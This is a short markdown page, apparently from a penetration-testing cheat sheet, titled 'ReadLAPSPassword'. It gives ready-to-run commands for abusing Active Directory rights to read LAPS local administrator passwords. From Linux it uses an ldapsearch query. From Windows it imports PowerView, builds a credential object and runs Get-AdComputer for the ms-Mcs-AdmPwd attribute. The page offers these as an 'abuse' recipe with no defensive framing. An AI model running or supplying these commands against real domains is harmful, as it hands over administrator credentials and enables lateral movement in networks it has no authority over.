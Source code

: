 ```yaml
---
title: "ReadLAPSPassword"
date: 2024-7-30
tags: ["ReadLAPSPassword", "active driectory", "ad", "Windows", "LAPS"]
---
```


---
### Abuse #1: Read LAPS Password

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
ldapsearch -h 10.10.11.10 -b 'DC=<,example>,DC=<com>' -x -D <USER>@<TARGET> -w <PASSWORD> "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView.ps1

<div>

```powershell
. .\PowerView.ps1
```

</div>

#### 2. Create cred object (runas) \[optional\]

<div>

```powershell
$username = "<DOMAIN>\<USER>"
```

```powershell
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
```

```powershell
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

</div>

#### 3. Read LAPS password

<div>

```powershell
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred
```

</div>

{{< /tabcontent >}}

<br>